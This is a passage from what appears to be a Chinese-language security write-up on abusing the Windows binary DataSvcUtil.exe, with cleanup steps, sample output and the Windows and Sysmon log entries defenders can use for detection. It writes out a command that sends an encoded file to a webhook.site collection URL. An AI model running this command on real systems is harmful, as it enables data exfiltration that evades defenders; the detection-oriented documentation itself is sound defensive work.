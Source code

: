 5. **清理**  
   - 无需清理（`DataSvcUtil.exe`不生成持久化文件，除非`/out`指定文件存在）：
     ```cmd
     del C:\Temp\test.txt
     ```

### 示例输出
```cmd
C:\Windows\Microsoft.NET\Framework64\v3.5>DataSvcUtil.exe /out:C:\Temp\test.txt /uri:https://webhook.site/xxxxxxxxx?encodedfile
Microsoft (R) DataSvcUtil 版本 3.5.0.0
正在写入对象层文件...
<成功或错误信息，取决于URL有效性>
```

**注意**：此复现仅用于学习和测试目的，需在合法授权的测试环境中进行，切勿用于非法活动。

## 日志留痕

- **Windows安全日志（事件ID 4688，进程创建）**：
  ```plaintext
  EventID: 4688
  Subject:
    Security ID: DESKTOP-PT656L6\liyang
    Account Name: liyang
    Account Domain: DESKTOP-PT656L6
    Logon ID: 0x47126
  Process Information:
    New Process ID: 0x2260
    New Process Name: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
    Token Elevation Type: TokenElevationTypeLimited (3)
    Mandatory Label: Mandatory Label\Medium Mandatory Level
    Creator Process ID: 0x24b4
    Creator Process Name: C:\Windows\System32\cmd.exe
    Process Command Line: DataSvcUtil /out:C:\Temp\test.txt /uri:https://webhook.site/xxxxxxxxx?encodedfile
  ```

- **Sysmon日志（事件ID 1，进程创建）**：
  ```plaintext
  EventID: 1
  UtcTime: 2025-06-10 03:00:00.123
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  ProcessId: 8800
  Image: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
  CommandLine: DataSvcUtil /out:C:\Temp\test.txt /uri:https://webhook.site/xxxxxxxxx?encodedfile
  ParentImage: C:\Windows\System32\cmd.exe
  User: DESKTOP-PT656L6\liyang
  IntegrityLevel: Medium
  ```

- **Sysmon日志（事件ID 3，网络连接）**：
  ```plaintext
  EventID: 3
  UtcTime: 2025-06-10 03:00:00.234
  ProcessGuid: {12345678-abcd-1234-abcd-1234567890ab}
  Image: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
  DestinationIp: <webhook.site IP>
  DestinationPort: 443
  Protocol: tcp
  User: DESKTOP-PT656L6\liyang
  ```
